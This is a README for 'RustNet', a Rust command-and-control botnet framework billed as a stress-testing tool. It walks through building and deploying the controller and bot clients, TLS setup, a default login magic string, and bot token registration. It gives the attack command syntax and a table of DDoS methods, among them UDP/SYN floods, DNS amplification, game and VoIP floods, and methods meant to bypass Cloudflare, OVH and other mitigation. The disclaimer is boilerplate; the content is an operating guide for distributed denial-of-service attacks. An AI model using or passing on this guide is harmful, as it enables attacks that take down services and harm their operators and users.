



# RustNet Framework

**RustNet** is an enterprise-grade, asynchronous Command and Control (C2) framework engineered in Rust. Built upon the Tokio runtime, it delivers high-concurrency performance with minimal resource footprint, designed specifically for network stress testing and distributed system management.

> **Legal Disclaimer**: This software is developed solely for educational purposes and authorized security auditing. The authors assume no liability for misuse. Users are responsible for ensuring compliance with all applicable laws and regulations.

## 🚀 Key Features

*   **High-Performance Architecture**: Leverages Rust's zero-cost abstractions and Tokio's asynchronous runtime to handle thousands of concurrent connections efficiently.
*   **End-to-End Encryption**: Enforces mandatory TLS 1.2/1.3 encryption for all Client-Server and Admin-Server communications, ensuring traffic opacity.
*   **Cross-Platform Compatibility**: Native support for Linux (including WSL) and Windows environments.
*   **Modular Design**: Extensible architecture allowing for rapid integration of new attack vectors and command modules.
*   **Comprehensive Attack Suite**:
    *   **Layer 4**: UDP/TCP Floods, SYN/ACK Floods, DNS Amplification, GRE/ICMP Floods.
    *   **Layer 7**: HTTP/HTTPS Floods, Slowloris, WebSocket Floods.
    *   **Application Layer**: Specialized modules for game protocols (Minecraft, RakNet, Source Engine) and VoIP (TeamSpeak, Discord, SIP).
*   **Advanced Management**:
    *   Role-Based Access Control (RBAC) with hierarchical permissions (Owner, Admin, Ba   sic).
    *   Real-time bot health monitoring and telemetry.
    *   Persistent SQLite database for user management and audit logging.

## 📊 System Architecture

### Network Topology


### Server Module Structure


### Attack Command Flow


## 🛠️ Prerequisites

*   **Rust Toolchain**: Latest stable release (via [rustup](https://rustup.rs/)).
*   **OpenSSL**: Required for generating TLS certificates and establishing secure admin connections.
    *   *Linux*: `sudo apt install openssl libssl-dev`
    *   *Windows*: Install via vcpkg or Chocolatey.

## 📦 Installation & Deployment

### 1. Repository Setup

```bash
git clone https://github.com/yourusername/RustNet.git
cd RustNet
```

### 2. Server Configuration

The server acts as the central controller. It requires a configuration file and TLS certificates.

1.  **Build the Server**:
    ```bash
    cd server
    cargo build --release
    ```

2.  **TLS Certificate Generation**:
    The server requires `cert.pem` and `key.pem` in the root directory. Generate self-signed certificates for secure communication:
    ```bash
    openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=RustNet Server"
    ```
    *Note: The server can auto-generate these if missing (when `strict_tls = false`), but manual generation is recommended for production.*

3.  **Configuration**:
    Ensure `config/server.toml` exists. Default ports are `1420` (Admin) and `7002` (Bot).
    ```toml
    [server]
    user_port = 1420
    bot_port = 7002
    enable_tls = true
    login_magic_string = "loginforme"  # Critical for authentication
    ```

4.  **Launch**:
    ```bash
    ./target/release/rustnet-server
    ```

### 3. Client (Bot) Configuration

The client connects to the server to execute commands.

1.  **Build the Client**:
    ```bash
    cd client
    cargo build --release
    ```

2.  **Configuration Files**:
    Create the following files in the client's execution directory:
    *   `c2_address.txt`: The Server IP and Bot Port (e.g., `127.0.0.1:7002`).
    *   `bot_token.txt`: A unique authentication token.
        *   *Generation*: Log into the server as Owner and run `regbot <arch>` to generate a valid token.

3.  **Launch**:
    ```bash
    ./target/release/rustnet-client
    ```

## 💻 Usage & Administration

### Connecting to the Server

Since the server enforces TLS, standard Telnet/Netcat clients will not work. You must use a TLS-capable client like OpenSSL.

**Connection Command:**
```bash
openssl s_client -connect localhost:1420 -quiet
```

**Authentication Flow:**
1.  **Handshake**: Upon connection, the server will display the banner.
2.  **Magic String**: You must immediately type the configured magic string (Default: `loginforme`) and press Enter.
3.  **Credentials**: Enter your Username and Password when prompted.

### Command Reference

#### General Management
*   `help`: Display the available command menu.
*   `bots`: List all connected bots and their status.
*   `methods`: Display all available attack vectors.
*   `ongoing`: View currently active attacks.
*   `stats`: View server resource usage and uptime.

#### Attack Execution
The syntax for launching attacks is strict.

**Syntax:**
```text
attack <method> <target_ip> <port> <duration>
```

**Example:**
```text
attack UDP 192.168.1.50 80 60
```

### Supported Attack Vectors

| Category | Methods | Description |
|----------|---------|-------------|
| **Layer 4** | `UDP`, `TCP`, `SYN`, `ACK` | Standard volumetric packet floods. |
| **Layer 4 (Adv)** | `UDPMAX`, `UDPSMART`, `GRE`, `ICMP` | Optimized high-throughput floods. |
| **Amplification** | `DNS`, `DNSL4`, `AMPLIFICATION` | Reflection-based attacks (requires spoofing support). |
| **Layer 7** | `HTTP`, `SLOWLORIS`, `STRESS` | Application layer resource exhaustion. |
| **Protocol Specific** | `TLS`, `WEBSOCKET`, `SIP` | Targeted protocol floods. |
| **Game Services** | `MINECRAFT`, `RAKNET`, `FIVEM`, `TS3`, `DISCORD` | Specialized payloads for game servers and VoIP. |
| **Bypass** | `STD`, `VSE`, `OVH`, `NFO`, `BYPASS`, `CF`, `CFBYPASS` | Methods designed to evade specific mitigation filters. |

## 🤝 Contributing

Contributions are welcome. Please adhere to the following guidelines:
1.  Fork the repository.
2.  Create a feature branch (`git checkout -b feature/NewModule`).
3.  Commit your changes with descriptive messages.
4.  Push to the branch and open a Pull Request.

## 📄 License

This project is distributed under the MIT License. See the `LICENSE` file for details.
